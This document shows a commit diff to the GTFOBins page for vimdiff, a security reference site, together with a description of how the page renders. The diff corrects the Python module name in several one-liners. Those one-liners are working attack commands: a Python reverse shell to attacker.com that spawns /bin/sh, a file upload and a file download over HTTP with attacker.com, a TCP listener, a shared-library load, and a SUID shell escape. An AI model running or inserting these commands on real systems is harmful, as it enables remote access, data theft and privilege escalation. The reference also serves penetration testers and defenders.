

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/vimdiff.md, in a window 1280 px wide and 1400 px high, scrolled down 1634 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Fix vimdiff

```diff
--- a/_gtfobins/vimdiff.md
+++ b/_gtfobins/vimdiff.md
@@ -15,11 +15,11 @@ functions:
       code: |
         export RHOST=attacker.com
         export RPORT=12345
-        vimdiff -c ':py import vdiff,sys,socket,os,pty;s=socket.socket()
+        vimdiff -c ':py import vim,sys,socket,os,pty;s=socket.socket()
         s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
         [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
         pty.spawn("/bin/sh")
-        vimdiff.command(":q!")'
+        vim.command(":q!")'
   non-interactive-reverse-shell:
     - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
       code: |
@@ -48,19 +48,19 @@ functions:
       code: |
         export URL=http://attacker.com/
         export LFILE=file_to_send
-        vimdiff -c ':py import vdiff,sys; from os import environ as e
+        vimdiff -c ':py import vim,sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
         else: import urllib as u, urllib2 as r
         r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
-        vimdiff.command(":q!")'
+        vim.command(":q!")'
     - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
       code: |
         export LPORT=8888
-        vimdiff -c ':py import vimdiff,sys; from os import environ as e
+        vimdiff -c ':py import vim,sys; from os import environ as e
         if sys.version_info.major == 3: import http.server as s, socketserver as ss
         else: import SimpleHTTPServer as s, SocketServer as ss
         ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
-        vimdiff.command(":q!")'
+        vim.command(":q!")'
     - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
       code: |
         export RHOST=attacker.com
@@ -79,11 +79,11 @@ functions:
       code: |
         export URL=http://attacker.com/file_to_get
         export LFILE=file_to_save
-        vimdiff -c ':py import vdiff,sys; from os import environ as e
+        vimdiff -c ':py import vim,sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r
         else: import urllib as r
         r.urlretrieve(e["URL"], e["LFILE"])
-        vimdiff.command(":q!")'
+        vim.command(":q!")'
     - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
       code: |
         export LPORT=12345
@@ -106,7 +106,7 @@ functions:
     - code: vimdiff file_to_read
   library-load:
     - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.
-      code: vimdiff -c ':py import vdiff; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vimdiff.command(":q!")'
+      code: vimdiff -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
   suid:
     - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.
       code: ./vimdiff -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```
